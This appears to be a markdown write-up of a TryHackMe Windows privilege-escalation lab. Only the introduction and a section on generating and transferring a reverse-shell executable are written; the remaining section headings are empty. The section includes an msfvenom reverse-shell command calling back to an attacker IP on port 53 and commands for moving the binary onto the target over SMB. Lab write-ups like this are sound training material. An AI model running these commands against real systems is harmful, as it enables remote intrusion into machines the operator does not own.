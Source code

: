 # Windows 10 Priv Esc room From TryHackMe

[1. Intro](#intro)

[2. Generating a Reverse Shell Executable](#generating-a-reverse-shell-executable)

[3. Service Exploits - Insecure Service Permissions](#service-exploits---insecure-service-permissions)

[4. Service Exploits - Unquoted Service Path](#service-exploits---unquoted-service-path)

[5. Service Exploits - Weak Registry Permissions](#service-exploits---weak-registry-permissions)

[6. Service Exploits - Insecure Service Executables](#service-exploits---insecure-service-executables)

[7. Registry - AutoRuns](#registry---autoruns)

[8. Registry - AlwaysInstallElevated](#registry---alwaysinstallelevated)

[9. Passwords - Registry](#passwords---registry)

[10. Passwords - saved creds](#passwords---saved-creds)

[11. Passwords - Security Account Manager (SAM)](#passwords---security-account-manager-sam)

[12. Passwords - Passing the Hash](#passwords---passing-the-hash)

[13. Scheduled Tasks](#scheduled-tasks)

[14. Insecure GUI Apps](#insecure-gui-apps)

[15. Startup Apps](#startup-apps)

[16. Token Impersonation - Rogue Potato](#token-impersonation---rogue-potato)

[17. Token Impersonation - PrintSpoofer](#token-impersonation---printspoofer)

[18. Privilege Escalation Scripts](#privilege-escalation-scripts)

## Intro

`xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP`

![image](https://user-images.githubusercontent.com/83407557/181599686-6ed867b0-25b4-47b1-8994-6fda5b5b3e36.png)
*image source https://tryhackme.com/room/windows10privesc*

## Generating a Reverse Shell Executable

The first step is going to be to create a reverse shell executable using msfvenom. Then I need to transfer this binary over to the target machine. The authors of this room have you transfer this file via SMB. However there are other ways of doing this, that I will also show here. They include, transfering the binary via FTP, netcat, exe2hex, and http. Depending on the firewalls certain ports may not be available, having multiple ways to transfer your files in your virtual tool belt is always a good thing.

### Creating reverse.exe

We need to know our ipv4 address on the tryhackme VPN before we can craft our revshell. Also in the example the author uses port 53 as the listening port. This is the port normally used by DNS, we may be using this for firewall reasons or because it is a good port to hide traffic, in any case I will be keeping it the same for my binary.

![image](https://user-images.githubusercontent.com/83407557/181602930-78389fa7-8de1-4d9c-bfb0-821e62fb4b48.png)*getting ipv4 address on THM vpn*

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.77.38 LPORT=53 -f exe -o reverse.exe`

![image](https://user-images.githubusercontent.com/83407557/181603375-da05a314-7e5a-43ed-ac1b-ae194ac8bd25.png)*Creating binary with msfvenom*

### Transfering reverse.exe Via SMB (The authors way)

Using the smb server from the impacket tool kit, from kali linux the following command can spin up an SMB share in the current directory with the following command:

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`

Then from the windows 10 RDP session, in a cmd terminal the copy command can be used to get a file from our SMB kali share:

`copy\\<kali ip>\kali\<file> <writable path on Windows>`  

![image](https://user-images.githubusercontent.com/83407557/181866236-da7538f9-95c2-42a2-a948-8f914f7ef448.png)

To test that it worked, start a netcat listener on port 53 and test the binary.

![image](https://user-images.githubusercontent.com/83407557/181866273-128d0611-d2b5-415c-9851-7a7548a9ef6c.png)

### Transfering reverse.exe Via HTTP

Using python3 on kali and powershell on the target machine, here is how we would download the binary via HTTP

![image](https://user-images.githubusercontent.com/83407557/181866418-6ef48e31-5c6c-49dd-ab8a-5a8512a4f5b4.png)

Again, we want to test that the transfer worked, but trying to get another nc callback.

![image](https://user-images.githubusercontent.com/83407557/181866474-d5093db4-908c-4fe9-b412-5199ca136c88.png)

### Transfering via FTP

Using a program like pure-ftp on kali, you can spin up a ftp server like we were able to do with ftp.

![image](https://user-images.githubusercontent.com/83407557/181866593-d7fa5bd6-f9d1-4881-89bc-1ad7ddba2948.png)

### Transfering via Exe2hex

Sometimes you only have access to a dumb-shell with no interactivity. Making certain methods (like ones where we are prompted for a password) impossible. There is however a program called exe2hex, that will turn a windows binary into a seqence of echo commands that can use a the windows clipboard to build out the binary on a target system:

First use exe2hex on our rev shell, then use xclip to copy the entire file to our clipboard.

![image](https://user-images.githubusercontent.com/83407557/182493651-c667adaa-8d6f-438a-b7f6-dce2126a44b5.png)

Then pasting it into a cmd prompt on windows, will create the binary in our current directory

![image](https://user-images.githubusercontent.com/83407557/182493955-7a3d8acb-8d04-44b9-9371-356b85abeb78.png)





## Service Exploits - Insecure Service Permissions
## Service Exploits - Unquoted Service Path
## Service Exploits - Weak Registry Permissions
## Service Exploits - Insecure Service Executables
## Registry - AutoRuns
## Registry - AlwaysInstallElevated
## Passwords - Registry
## Passwords - saved creds
## Passwords - Security Account Manager (SAM)
## Passwords - Passing the Hash
## Scheduled Tasks
## Insecure GUI Apps
## Startup Apps
## Token Impersonation - Rogue Potato
## Token Impersonation - PrintSpoofer
## Privilege Escalation Scripts
